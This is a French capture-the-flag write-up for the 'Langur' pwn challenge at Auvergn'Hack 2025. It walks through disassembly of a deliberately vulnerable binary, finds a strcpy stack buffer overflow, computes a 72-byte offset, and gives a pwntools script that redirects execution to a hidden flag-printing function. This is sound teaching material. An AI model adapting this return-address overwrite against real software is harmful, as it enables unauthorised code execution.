 ```yaml
---
title: "Auvergn'Hack 2025 : Langur | PWN "
date: 2025-04-06
draft: false
categories: ["Pwn"]
ctf: "Auvergn'Hack 2025"
challenge: "Langur"
author: "Reyko"
---
```


# WU Langur - PWN - Auvergn'Hack

Challenge :
Langur

Enoncé : 
Langur is often puzzled. Can you get him to talk ?
Additional info: No ASLR"

## 1. Objdump :

3 principales fonctions :

```asm
0000000000401240 <vulnerable_function>:
  401240:	55                   	push   %rbp
  401241:	48 89 e5             	mov    %rsp,%rbp
  401244:	48 83 ec 50          	sub    $0x50,%rsp
  401248:	48 89 7d b8          	mov    %rdi,-0x48(%rbp)
  40124c:	48 8b 55 b8          	mov    -0x48(%rbp),%rdx
  401250:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
  401254:	48 89 d6             	mov    %rdx,%rsi
  401257:	48 89 c7             	mov    %rax,%rdi
  40125a:	e8 d1 fd ff ff       	call   401030 <strcpy@plt>
  40125f:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
  401263:	48 89 c6             	mov    %rax,%rsi
  401266:	48 8d 05 07 0e 00 00 	lea    0xe07(%rip),%rax        # 402074 <_IO_stdin_used+0x74>
  40126d:	48 89 c7             	mov    %rax,%rdi
  401270:	b8 00 00 00 00       	mov    $0x0,%eax
  401275:	e8 e6 fd ff ff       	call   401060 <printf@plt>
  40127a:	90                   	nop
  40127b:	c9                   	leave
  40127c:	c3                   	ret

000000000040127d <main>:
  40127d:	55                   	push   %rbp
  40127e:	48 89 e5             	mov    %rsp,%rbp
  401281:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401285:	48 8d 05 f6 0d 00 00 	lea    0xdf6(%rip),%rax        # 402082 <_IO_stdin_used+0x82>
  40128c:	48 89 c7             	mov    %rax,%rdi
  40128f:	b8 00 00 00 00       	mov    $0x0,%eax
  401294:	e8 c7 fd ff ff       	call   401060 <printf@plt>
  401299:	48 8b 15 b0 2d 00 00 	mov    0x2db0(%rip),%rdx        # 404050 <stdin@GLIBC_2.2.5>
  4012a0:	48 8d 45 80          	lea    -0x80(%rbp),%rax
  4012a4:	be 80 00 00 00       	mov    $0x80,%esi
  4012a9:	48 89 c7             	mov    %rax,%rdi
  4012ac:	e8 bf fd ff ff       	call   401070 <fgets@plt>
  4012b1:	48 8d 45 80          	lea    -0x80(%rbp),%rax
  4012b5:	48 89 c7             	mov    %rax,%rdi
  4012b8:	e8 83 ff ff ff       	call   401240 <vulnerable_function>
  4012bd:	48 8d 05 d0 0d 00 00 	lea    0xdd0(%rip),%rax        # 402094 <_IO_stdin_used+0x94>
  4012c4:	48 89 c7             	mov    %rax,%rdi
  4012c7:	e8 74 fd ff ff       	call   401040 <puts@plt>
  4012cc:	b8 00 00 00 00       	mov    $0x0,%eax
  4012d1:	c9                   	leave
  4012d2:	c3                   	ret
  
  0000000000401196 <secret_function>:
  401196:	55                   	push   %rbp
  401197:	48 89 e5             	mov    %rsp,%rbp
  40119a:	48 81 ec 10 04 00 00 	sub    $0x410,%rsp
  4011a1:	48 8d 05 60 0e 00 00 	lea    0xe60(%rip),%rax        # 402008 <_IO_stdin_used+0x8>
  4011a8:	48 89 c6             	mov    %rax,%rsi
  4011ab:	48 8d 05 58 0e 00 00 	lea    0xe58(%rip),%rax        # 40200a <_IO_stdin_used+0xa>
  4011b2:	48 89 c7             	mov    %rax,%rdi
  4011b5:	e8 c6 fe ff ff       	call   401080 <fopen@plt>
  4011ba:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  4011be:	48 83 7d f8 00       	cmpq   $0x0,-0x8(%rbp)
  4011c3:	75 19                	jne    4011de <secret_function+0x48>
  4011c5:	48 8d 05 49 0e 00 00 	lea    0xe49(%rip),%rax        # 402015 <_IO_stdin_used+0x15>
  4011cc:	48 89 c7             	mov    %rax,%rdi
  4011cf:	e8 bc fe ff ff       	call   401090 <perror@plt>
  4011d4:	bf 01 00 00 00       	mov    $0x1,%edi
  4011d9:	e8 c2 fe ff ff       	call   4010a0 <exit@plt>
  4011de:	48 8b 55 f8          	mov    -0x8(%rbp),%rdx
  4011e2:	48 8d 85 f0 fb ff ff 	lea    -0x410(%rbp),%rax
  4011e9:	be 00 04 00 00       	mov    $0x400,%esi
  4011ee:	48 89 c7             	mov    %rax,%rdi
  4011f1:	e8 7a fe ff ff       	call   401070 <fgets@plt>
  4011f6:	48 85 c0             	test   %rax,%rax
  4011f9:	74 20                	je     40121b <secret_function+0x85>
  4011fb:	48 8d 85 f0 fb ff ff 	lea    -0x410(%rbp),%rax
  401202:	48 89 c6             	mov    %rax,%rsi
  401205:	48 8d 05 23 0e 00 00 	lea    0xe23(%rip),%rax        # 40202f <_IO_stdin_used+0x2f>
  40120c:	48 89 c7             	mov    %rax,%rdi
  40120f:	b8 00 00 00 00       	mov    $0x0,%eax
  401214:	e8 47 fe ff ff       	call   401060 <printf@plt>
  401219:	eb 0f                	jmp    40122a <secret_function+0x94>
  40121b:	48 8d 05 2e 0e 00 00 	lea    0xe2e(%rip),%rax        # 402050 <_IO_stdin_used+0x50>
  401222:	48 89 c7             	mov    %rax,%rdi
  401225:	e8 16 fe ff ff       	call   401040 <puts@plt>
  40122a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  40122e:	48 89 c7             	mov    %rax,%rdi
  401231:	e8 1a fe ff ff       	call   401050 <fclose@plt>
  401236:	bf 00 00 00 00       	mov    $0x0,%edi
  40123b:	e8 60 fe ff ff       	call   4010a0 <exit@plt>
```

### 2.1 Fonction vulnérable

La fonction `vulnerable_function` copie l’entrée utilisateur (fonction main) sans vérifier la taille :

```asm
0000000000401240 <vulnerable_function>:
  401240:       55                      push   %rbp
  401241:       48 89 e5                mov    %rsp,%rbp
  401244:       48 83 ec 50             sub    $0x50,%rsp       
  401248:       48 89 7d b8             mov    %rdi,-0x48(%rbp)  ; Sauvegarde l'argument
  40124c:       48 8b 55 b8             mov    -0x48(%rbp),%rdx
  401250:       48 8d 45 c0             lea    -0x40(%rbp),%rax  ; Adresse du tampon local (64 octets)
  401254:       48 89 d6                mov    %rdx,%rsi
  401257:       48 89 c7                mov    %rax,%rdi
  40125a:       e8 d1 fd ff ff          call   401030 <strcpy@plt>  ; Appel à strcpy
```

**Explication :**
- Le tampon est alloué à partir de `-0x40(%rbp)`, donc 64 octets.
- Copie l’argument (`rdi` initialement) dans ce tampon avec `strcpy`, sans aucune vérification de la taille.
- Donc bufferoverflow possible.

### 2.2 Fonction secret

La fonction `secret_function` affiche le contenu de secret.txt :

```asm
0000000000401196 <secret_function>:
  401196:       55                      push   %rbp
  401197:       48 89 e5                mov    %rsp,%rbp
  40119a:       48 81 ec 10 04 00 00    sub    $0x410,%rsp      ; Réserve de l'espace pour les opérations
  ...
  4011fb:       48 8d 85 f0 fb ff ff    lea    -0x410(%rbp),%rax
  401202:       48 89 c6                mov    %rax,%rsi
  401205:       48 8d 05 23 0e 00 00    lea    0xe23(%rip),%rax   ; Prépare le format
  40120c:       48 89 c7                mov    %rax,%rdi
  40120f:       b8 00 00 00 00          mov    $0x0,%eax
  401214:       e8 47 fe ff ff          call   401060 <printf@plt> ; affiche
```

**Explication :**
- La fonction ouvre secret.txt et affiche le flag
- Elle n’est pas appelée par le flux "normale" du binaire.
- Objectif : rediriger le flux d’exécution pour que la fonction `secret_function` soit appelée.



## 3. Calcul de l’Offset et Exploitation

### 3.1 Calcul de l’Offset

Dans `vulnerable_function`, le tampon est de 64 octets.
Pour atteindre l’adresse de return, il faut écraser le saved base pointer de 8 octets.
Donc Offset total = 64 + 8 = 72 octets

### 3.2 Construction du Payload

L’idée est d’envoyer :
- 72 octets de padding (A*72)
- Puis l’adresse de `secret_function` (0x401196) en little-endian.



## 4. Script Pwntool

```python
#!/usr/bin/env python3
from pwn import *

# Chargement du binaire
elf = ELF('./langur')

# Lancement du binaire en local
p = process(elf.path)

# Offset calculé : 64 octets de tampon + 8 octets pour le saved rbp
offset = 72

# Adresse de la fonction secret_function
secret_function_addr = 0x401196

# Construction du payload : padding + adresse de secret_function
payload = b"A" * offset + p64(secret_function_addr)

# Envoi du payload au binaire
p.sendline(payload)

# Passage en mode interactif pour observer le résultat
p.interactive()
```

Pour cause de problème d'infra, le challenge n'a pas pu être testé en remote.
